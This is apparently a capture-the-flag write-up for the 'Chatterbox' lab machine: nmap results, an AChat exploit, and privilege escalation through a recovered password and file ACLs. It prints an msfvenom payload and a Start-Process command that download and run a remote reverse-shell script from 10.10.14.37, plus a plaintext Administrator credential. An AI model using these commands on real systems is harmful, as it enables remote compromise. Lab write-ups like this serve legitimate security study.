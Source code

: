 # chatterbox



## nmap



Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system



## searchsploit

![image-20200901121508135](chatterbox.assets/image-20200901121508135.png)



- edited the exploit according to our need changed ip and msfvenom payload

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"iex(new-object net.webclient).downloadstring('http://10.10.14.37:8000/rev.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

- hosted nishang shell and got the reverse shell

#### shell

![image-20200901124645396](chatterbox.assets/image-20200901124645396.png)





## post

- using PowerUp.ps1 module

![image-20200901125155186](chatterbox.assets/image-20200901125155186.png)

- we got a credential for alfred we can try it will administrator



#### save creds in powershell

```powershell
$pass = convertto-securestring 'Welcome1!' -asplaintext -force
$cred = new-object system.management.automation.pscredential('Administrator',$pass)
```

![image-20200901130212275](/home/manish/.config/Typora/typora-user-images/image-20200901130212275.png)



- we know it will work now lets do with creds

![image-20200901130554042](chatterbox.assets/image-20200901130554042.png)



```powershell
start-process -filepath "powershell" -argumentlist "iex(new-object net.webclient).downloadstring('http://10.10.14.37:8000/rev.ps1')" -credential $creds
```



![image-20200901130837311](chatterbox.assets/image-20200901130837311.png)



## method 2 using ACL

- get-acl shows alfred is owner of root.txt

![image-20200901134914196](chatterbox.assets/image-20200901134914196.png)



- using cacls command

![image-20200901134857107](chatterbox.assets/image-20200901134857107.png)



